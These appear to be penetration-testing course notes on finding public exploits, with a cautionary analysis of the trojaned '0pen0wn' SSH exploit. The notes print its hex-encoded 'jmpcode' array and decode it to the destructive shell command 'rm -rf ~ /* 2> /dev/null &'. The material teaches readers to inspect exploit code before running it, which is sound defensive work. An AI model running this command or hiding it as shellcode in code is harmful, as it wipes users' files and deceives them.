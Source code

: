 # Locating Public Exploits
An _exploit_ is a program or script that can leverage a flaw or vulnerability of a target system
+ Exploits can have a range of effects, such as a _denial of service_ (DoS), _remote code execution_ (RCE), or a _privilege escalation_ (privesc)

A common process of a _penetration testing_ engagement is the use of publicly available exploits, and searching for appropriate exploits becomes a critical skill when this need arises
+ Will focus on various online resources that host exploits for publicly known vulnerabilities
+ Will also inspect offline tools available in Kali that contain locally-hosted exploits

With the knowledge to find public exploits, we will then narrow our search to relevant ones that could be used to gain access to a machine
+ Will enumerate a target to determine which exploit(s) can be used to compromise it

## Getting Started 
Will review a malicious public exploit
+ It is important to understand the risks associated with executing unknown exploits, especially if we don't analyze what the exploit code does

### A Word of Caution 
We must understand that by downloading and running public exploits, we can greatly endanger a system or environment
+ With this in mind, we need to carefully read and understand the code before execution to ensure no negative effects

Will use _0pen0wn_, which was published as a remote exploit for _SSH_, as an example
+ While reading the source code, we noticed that it was asking for "root" privileges, which was suspicious
``` c
if (geteuid()) {
  puts("Root is required for raw sockets, etc."); return 1;
}
```

Further examination of the payload revealed an interesting _jmpcode_ array
``` c
[...]
char jmpcode[] =
"\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f"
"\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26";
[...]
```

Although it was masked as _shellcode_, the "jmpcode" character array was actually a _hex-encoded_ string containing a malicious shell command
```
kali@kali:~$ python3

>>> jmpcode = [
... "\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f"
... "\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26"]
>>> print(jmpcode)
['rm -rf ~ /* 2> /dev/null &']
>>>
```
